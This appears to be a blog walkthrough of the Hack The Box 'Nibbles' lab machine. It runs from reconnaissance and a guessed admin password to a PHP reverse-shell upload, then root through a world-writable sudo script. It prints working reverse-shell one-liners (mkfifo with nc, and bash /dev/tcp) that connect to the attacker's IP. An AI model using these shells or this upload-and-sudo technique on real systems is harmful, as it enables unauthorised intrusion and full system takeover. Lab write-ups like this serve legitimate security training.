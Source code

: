 ```yaml
---
layout: post
title: "HTB-Nibbles"
categories: HTB-Walkthrough
---
```


![nibbles](/assets/img/nibbles.png)

Nmap first...Im not sure why, but my first scan only picked up port 22, I tried again and got a better result...

`nmap -sV -Pn 10.10.10.75 |tee -a nib.txt`

Still, there's only 2 ports that seem to be open...

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Browsing to http://10.10.10.75 we see "Hello World" message, but the page is empty, looks like it's in development.
Checking out the source we get a nice surprise....

```

<!-- /nibbleblog/ directory. Nothing interesting here! -->


```

OK, so taking the hint, we give it a go...It takes us to a pretty empty blog page.

Lets crank up gobuster, and see what we can find. 

`gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50 -x .php,.txt,.html`

```

/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)

```

Instantly our eye is drawn to `/admin.php` 
Its a login page.

Since its an admin login, i decided to try admin/admin...it failed...
Sticking with admin username for now, I tried 'nibbles' as the password since it's the name of the box...and it worked!!!


having a poke about, I find we can possibly upload an image file (containing a reverse-shell) to the server...

http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

We can upload pentestmonkey's [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) which I've saved as evil.php
Just modify the contents to reflect our IP and preferred port for the connection...

Once uploaded, we can execute the shell by browsing to the folder where the server stores it.

`/content/private/plugins/my_image/evil.php`

.....eh? It didn't work....

Sometimes a server will change the name of a file for storage...perhaps because its hardcoded in other php files for convenience.

I try...
`/content/private/plugins/my_image/image.php'


and catch the shell on 6969.

```

listening on [any] 6969 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 56026
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:44:47 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$

```

Go to the /home/nibbler directory, and find user.txt

```

$ cat user.txt
##  b0xxxxxxxxxxxxxxxxxxxxxxxxxxxxd8

```

Looking at the directory contents, we find something interesting...

```

$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 10  2017 user.txt


```

One of the first commands I run when trying to escalate privileges (besides `sudo su`),
is `sudo -l`.
It sometimes lists the commands an user can execute with sudo without having to enter a password...

```

$ sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


```

Looks like we have to unzip `personal.zip`

```

$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ ls
personal
personal.zip
user.txt
$ 

```

We find `monitor.sh` inside the unzipped folder...

```

$ cd personal
$ l
/bin/sh: 16: l: not found
$ ls
stuff
$ cd stuff
$ ls
monitor.sh
$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
$ 


```

Looks like anyone can execute monitor.sh, but we know we can execute it as root with the sudo command.
We can also write to the file, 

```

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 999 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

And we catch the root shell on 999

```

nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.75] 37444
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
b6xxxxxxxxxxxxxxxxxxxxxxxxxxxx8c
# whoami
root
# 
 
```

alternatively we could just replace the file

```


mv monitor.sh monitor-old.sh

cat > monitor.sh << _EOF
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/999 0>&1;
_EOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ sudo /home/nibbler/personal/stuff/monitor.sh


```


again catching the root shell on 999.



:)


